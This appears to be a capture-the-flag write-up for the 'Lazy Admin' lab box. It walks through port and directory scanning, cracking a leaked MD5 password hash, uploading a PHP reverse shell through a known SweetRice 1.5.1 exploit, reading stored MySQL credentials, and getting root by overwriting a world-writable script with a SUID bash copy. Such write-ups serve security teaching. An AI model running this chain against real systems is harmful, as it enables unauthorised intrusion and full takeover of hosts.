

# Lazy Admin

## NMAP

```
$ sudo nmap -sS -p- 10.10.34.198
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-12 08:19 EDT
Nmap scan report for 10.10.34.198
Host is up (0.061s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 56.13 seconds

$ nmap -sV -p 22,80 10.10.34.198                               

Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-12 08:23 EDT
Nmap scan report for 10.10.34.198
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.16 seconds
```

## Web dir enumeration

```
$ gobuster dir -u http://10.10.34.198 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.34.198
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.34.198/content/]                                                                                
/index.html           (Status: 200) [Size: 11321]
/.html                (Status: 403) [Size: 277]
Progress: 175328 / 175330 (100.00%)
===============================================================
Finished
===============================================================
```

## Sweet Rice

When we go to this content folder we can find a **Sweet Rice notice**

We can go to the Sweet Rice github and look at the directory layout of this framework.

We can quickly find a mysql backup under content/inc/mysql_backup/.

## SQL Backup



We can see a username and a hashed password. The hash is md5.

Using CrackStation we can get the password. It is ```Password123```

## Exploits for SweetRice

We can find the sweet rice version on content/inc/latest.txt ```1.5.1```. Looking for exploits for this version we can find one about remote file inclusion.

https://www.exploit-db.com/exploits/40716

### Uploading a reverse shell.

```
$ python3 40716.py

+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.34.198/content
Enter Username : manager 
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php5
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.34.198/content/attachment/php-reverse-shell.php5
```

You can also add the file manually in the media center.

## Rev shell

```
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.18.22.237] from (UNKNOWN) [10.10.34.198] 46638
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 16:20:31 up  1:12,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Get a TTY shell

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@THM-Chal:/$ 
```

## MySQL

```
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt
cat mysql_login.txt
rice:randompass
```

```
www-data@THM-Chal:/var/lib$ mysql -u rice -p
mysql -u rice -p
Enter password: randompass

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 58
Server version: 5.7.28-0ubuntu0.16.04.2 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| website            |
+--------------------+
5 rows in set (0.01 sec)


mysql> select database();
select database();
+------------+
| database() |
+------------+
| NULL       |
+------------+
1 row in set (0.00 sec)

mysql> use website;
use website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> 
```

This will lead to nowhere I think.

## Priv Esc

```
www-data@THM-Chal:/home/itguy$ ls -l backup.pl
ls -l backup.pl
-rw-r--r-x 1 root root 47 Nov 29  2019 backup.pl
www-data@THM-Chal:/home/itguy$ cat backup.pl
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

```
www-data@THM-Chal:/home$ ls -l /etc/copy.sh
ls -l /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

```
www-data@THM-Chal:/home$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
We can run "/urs/bin/perl /home/itguy/backup.pl" without sudo password

Changing copy.sh


```
echo "cp /bin/bash /tmp/mal_bash | chmod +xs /tmp/mal_bash" > /etc/copy.sh
```

```

$ sudo /usr/bin/perl /home/itguy/backup.pl

$ ls -l /tmp
total 1092
-rwsr-sr-x 1 root root 1109564 Oct 12 17:58 mal_bash
drwx------ 3 root root    4096 Oct 12 17:55 systemd-private-fadb1cf574b34f5eb58f4982b05d8aca-colord.service-TXjX0s
drwx------ 3 root root    4096 Oct 12 17:55 systemd-private-fadb1cf574b34f5eb58f4982b05d8aca-rtkit-daemon.service-xFVacy
```

Run it and then run the mal_bash with -p.
```
$ ./mal_bash -p
whoami
root
```